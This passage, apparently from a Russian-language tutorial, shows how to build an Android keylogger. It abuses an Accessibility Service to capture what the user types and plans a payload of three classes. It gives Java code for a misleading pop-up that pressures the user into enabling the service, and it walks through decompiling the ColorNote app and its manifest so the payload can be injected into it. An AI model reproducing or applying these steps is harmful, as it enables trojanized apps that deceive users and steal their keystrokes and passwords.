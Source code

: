 Это способ самый бесполезный, собственная клавиатура хорошо видна пользователю. Второй способ, это создание Accessibility Service. Такие сервисы, встраиваются в приложения, для людей с ограниченными возможностями. Они имеют доступ ко многим вещам, одна из которых - пользовательский ввод. Именно то что нужно для кейлоггера.

## Создаем payload

Payload будет состоять из трех классов - ```ExecuteAttack```, ```GoogleService```, ```SendService```.

Чтобы наш Accessibility Service начал работать, пользователю необходимо включить его в настройках. Мы поможем в этом пользователю, внедрив в приложение всплывающее окно, с текстом *Please enable app in settings! Otherwise it will stop working* (можно использовать и более пугающий текст). И добавим кнопочку, чтобы пользователь по ней кликнул и перешел сразу в настройки. Класс ```ExecuteAttack``` именно это и делает.

```java
public static void openSettings(final Context ctx) {
        AlertDialog alertDialog = new AlertDialog.Builder(ctx).create();
        alertDialog.setTitle("Alert");
        alertDialog.setMessage("Please enable app in settings! Otherwise it will stop working");
        alertDialog.setButton(AlertDialog.BUTTON_NEUTRAL, "Settings",
                new DialogInterface.OnClickListener() {
                    public void onClick(DialogInterface dialog, int which) {
                        ctx.startActivity(new Intent("android.settings.ACCESSIBILITY_SETTINGS"));
                    }
                });
        alertDialog.show();
    }
```

![](/assets/images/keylogger_prj.png)

Скачиваем приложение, декомпилируем. Открываем манифест, находим активити.

```xml
<activity android:configChanges="keyboard|keyboardHidden|orientation|screenLayout|screenSize|smallestScreenSize|uiMode" 
	  
	  android:label="@string/app_name" android:name="com.socialnmobile.colornote.activity.Main" 
	  
	  android:taskAffinity="colornote.task.main" android:theme="@style/Theme.NoTitle.Light" 
	  
	  android:windowSoftInputMode="adjustPan">
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/>
                <category android:name="android.intent.category.LAUNCHER"/>
                <category android:name="android.intent.category.MULTIWINDOW_LAUNCHER"/>
                <category android:name="android.intent.category.MONKEY"/>
            </intent-filter>
            <intent-filter>
                <action android:name="android.intent.action.VIEW"/>
                <action android:name="android.intent.action.EDIT"/>
```